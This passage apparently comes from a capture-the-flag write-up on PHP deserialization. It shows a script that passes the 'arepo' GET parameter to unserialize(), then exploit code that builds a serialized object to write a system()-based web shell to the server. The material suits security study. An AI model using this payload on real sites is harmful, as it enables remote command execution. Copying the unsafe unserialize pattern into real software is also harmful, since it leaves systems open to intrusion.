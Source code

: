 ```php
                file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
                echo '[] Database updated <br>';
        //      echo 'Gotta get this working properly...';
        }
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

This code seems to be using `__destruct()` function to create a file called users.txt and writing the value of `data` to it.

![users](7.png)

The file does exist with the content `Success`.

One interesting lines here are:

```php
$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);
```

The php file is expecting a GET parameter with the name `arepo` and passes the value to `unserialize`.

For more information about `php deserialization` check this video from `IppSec`

{% include embed/youtube.html id='HaW15aMzBUM' %}

## **Foothold**

To exploit this we need to generate a serialized object, the following php code does the job.

```php
<?php

class DatabaseExport {

    public $user_file = "0xsirius.php";
    public $data = '<?php system($_GET["cmd"]); ?>';

}

$exploit = new DatabaseExport;
echo serialize($exploit);

?>
```
